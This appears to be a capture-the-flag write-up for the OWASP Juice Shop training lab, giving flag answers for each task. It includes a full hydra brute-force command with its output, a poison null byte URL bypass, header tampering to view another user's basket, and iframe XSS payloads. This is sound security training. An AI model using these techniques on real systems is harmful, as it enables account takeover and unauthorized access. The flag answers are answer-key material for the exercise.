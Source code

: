 # OWASP Juice Shop

# Task 1: Let's go on an adventure! 

```Question #1: What's the Administrator's email address?
Doing an application walkthrough I got the information
--> admin@juice-sh.op
```
```Question #2: What parameter is used for searching? 
--> Q
```
```Question #3: What show does Jim reference in his review? 
--> star trek
```
# Task 2 : Inject the juice 
```Question #1: Log into the administrator account!
--> 32a5e0f21372bcc1000a6088b93b458e41f0e02a
```
```Question #2: Log into the Bender account!
---> fb364762a3c102b2db932069c0e6b78e738d4066
```

# Task 4 Who broke my lock?! 
```Question #1: Bruteforce the Administrator account's password!

I used hydra for this to get the password

aaron@aaron-VirtualBox:~/thm/owasp_juice_shop$ sudo hydra -l admin@juice-sh.op -P /home/aaron/SecLists/Passwords/Common-Credentials/best1050.txt 10.10.249.34 http-post-form "/rest/user/login:email=^USER^&password=^PASS^:Invalid Email or password." -V

----> [80][http-post-form] host: 10.10.249.34   login: admin@juice-sh.op   password: admin123


upon logging in to the admin account i get the flag, yey
--- > c2110d06dc6f81c67cd8099ff0ba601241f1ac0e
```
```Question #2: Reset Jim's password!
 jim@juice-sh.op
---> 094fbc9b48e525150ba97d05b942bbf114987257
```
# Task 5 AH! Don't look! 

```Question #1: Access the Confidential Document!
 go to http://10.10.249.34/ftp/legal.md
 --> edf9281222395a1c5fee9b89e32175f1ccf50c5b
```
```Question #2: Log into MC SafeSearch's account!

He notes that his password is "Mr. Noodles" but he has replaced some "vowels into zeros", meaning that he just replaced the o's into 0's.

We now know the password to the mc.safesearch@juice-sh.op account is "Mr. N00dles"
---> 66bdcffad9e698fd534003fbb3cc7e2b7b55d7f0

Question #3: Download the Backup file!

To get around this, we will use a character bypass called "Poison Null Byte". A Poison Null Byte looks like this: %00. 

Note: as we can download it using the url, we will need to encode this into a url encoded format.

The Poison Null Byte will now look like this: %2500. Adding this and then a .md to the end will bypass the 403 error!

Why does this work? 

A Poison Null Byte is actually a NULL terminator. By placing a NULL character in the string at a certain byte, the string will tell the server to terminate at that point, nulling the rest of the string. 

---> b0fc1e6b4a16579e85e06fee4c36ff8c02fb13795
```
# Task 6 Who's flying this thing? 
```Question #1: Access the administration page!
--> 946a799363226a24822008503f5d1324536629a0
```

```Question #2: View another user's shopping basket!
using burpsuite I change the headers to basket2
--> 41b997a36cc33fbe4f0ba018474e19ae5ce52121
```
```Question #3: Remove all 5-star reviews!
--> 50c97bcce0b895e446d61c83a21df371ac2266ef
```
# Task 7 Where did that come from? 

```Question #1: Perform a DOM XSS!
<iframe src="javascript:alert(`xss`)"> 
	9aaf4bbea5c30d00a1f5bbcfce4db6d4b0efe0bf
````

```Question #2: Perform a persistent XSS!
using burpsuite i added this header in the http request
True-Client-IP	<iframe src="javascript:alert(`xss`)">
--> 149aa8ce13d7a4a8a931472308e269c94dc5f156
```
```Question #3: Perform a reflected XSS!

i used this command to get the flag
<iframe src="javascript:alert(`xss`)"> 
in the place of the 5267-f73dcd000abcc353
---> 23cefee1527bde039295b2616eeb29e1edc660a0
````